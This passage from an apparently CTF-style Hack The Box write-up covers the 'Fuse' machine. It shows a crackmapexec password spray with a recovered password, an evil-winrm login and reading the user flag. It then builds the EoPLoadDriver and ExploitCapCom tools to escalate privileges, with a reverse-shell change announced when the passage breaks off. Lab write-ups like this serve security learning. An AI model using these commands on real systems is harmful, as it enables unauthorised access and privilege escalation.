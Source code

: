 Now that we have a list of users, and a potential password $fab@s3Rv1ce$1, we will use crackmapexec again to check if we are able to find a set of credentials that can authenticate. From there, we are able to find 2 set of credentials that can authenticate to the sm server.

```
┌──(kali㉿kali)-[~/Desktop/fuse]
└─$ crackmapexec smb 10.10.10.193 -u user.txt -p '$fab@s3Rv1ce$1' --continue-on-success                    148 ⨯ 1 ⚙
SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True) 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 
SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1  
```

### Obtaining user flag

Using impacket-smbexec and impacket-psexec, we realize that we are unable to obtain a shell from it as we do not have write access to any of the shares. However, we are able to authenticate using evil-winrm. However, we realize that authentication via evil-winrm only works for the svc-print user but not for the svc-scan user.

```
┌──(kali㉿kali)-[~/Desktop/evil-winrm]
└─$ bundle exec evil-winrm.rb -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'                             148 ⨯ 1 ⚙
*Evil-WinRM* PS C:\Users\svc-print\Documents> dir
```

Using the Evil-WinRM shell, we are able to obtain the user flag.

```
*Evil-WinRM* PS C:\Users\svc-print\Desktop> type user.txt
<Redacted user flag>
```

### Building EopLoadDriver.exe
First, we would need to create the vulnerable driver. To do so, we will have to build the C++ code from [here](https://github.com/TarlogicSecurity/EoPLoadDriver/). To compile the code, we would have to set the project to "Release" and "x64".

![release_x64](https://github.com/joelczk/writeups/blob/main/HTB/Images/Fuse/release_x64.png)

In the cpp code, the line ```include "stdafx.h"``` is a visual code artifact and has to be removed for the executable to be built properly.

### Building ExploitCapCom
In the C++ code for ExploitCapCom, the exploit will trigger a new shell with root privileges.

```
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
```

However, this is not what we want as we want to create a reverse shell payload with root privileges. Hence, we will replace the line with the following code:
